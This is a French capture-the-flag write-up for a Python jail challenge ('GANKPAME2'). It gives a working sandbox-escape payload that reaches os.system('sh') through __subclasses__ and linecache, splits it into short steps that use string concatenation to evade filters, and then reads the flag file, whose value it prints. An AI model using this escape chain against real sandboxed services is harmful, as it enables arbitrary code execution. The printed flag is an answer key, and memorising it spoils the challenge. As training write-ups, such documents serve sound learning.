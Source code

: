 # GANKPAME2
```
500 pts
```
## Description
```
Un autre jail, échappe les filtres.
nc 54.37.70.250 1004

```
## Solution
```
C'est du python jail, identitique à celui des phases de qualifications. Mais des filtres ont été appliquées pour empêcher
la lecture de fichier.
La longueur de l'input est de 30. Au delà de 30 , l'input est tronqué.
Nous avons uniquement droit à 11 tentatives
Il faut donc obtenir directement un shell.
Voici notre payload:
().__class__.__base__.__subclasses__()[-20].__init__.__globals__['linecache'].__dict__['os'].__dict__['system']('sh')
```

`>>> __builtins__['a']=__builtins__`

<img src="File/py1.png">

`>>> a['b']=().__class__.__base__`

<img src="File/py2.png">

`>>> a['c']=a['b'].__subclasses__`

<img src="File/py3.png">

`>>> a['d']=a['c']()[-20]`

<img src="File/py4.png">

`>>> a['e']=a['d'].__init__`

<img src="File/py5.png">

`>>> a['f']=e.__globals__`

<img src="File/py6.png" >

`>>> a['g']=f['line'+'cache']`

<img src="File/py7.png">

`>>> a['h']=g.__dict__['o'+'s']`

<img src="File/py8.png">

`>>> a['i']=h.__dict__`

<img src="File/py9.png">

`>>> a['j']=i["sys"+"tem"]('sh')`

<img src="File/py10.png">

`>>>ls -a`

<img src="File/py11.png" >

`>>>cat .flag`

<img src="File/py12.png" >


## Flag
```
CTF_d33p_1n5Pe(tion_0bJecT_Byp@Ss_b4s!c_Fi1t3r

```





